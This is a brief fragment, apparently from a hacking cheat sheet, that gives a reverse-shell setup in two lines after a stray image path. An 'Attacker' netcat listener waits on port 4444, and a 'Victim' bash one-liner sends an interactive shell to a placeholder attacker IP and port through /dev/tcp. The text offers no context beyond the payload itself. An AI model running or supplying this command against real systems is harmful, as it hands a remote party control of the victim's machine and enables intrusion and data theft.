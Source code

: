 **Attaсker:**
_nc -lvnp 4444

**Victim:**
_bash -c 'exec bash -i &>/dev/tcp/{{attacker-ip}}/{{attacker-port}} <&1'
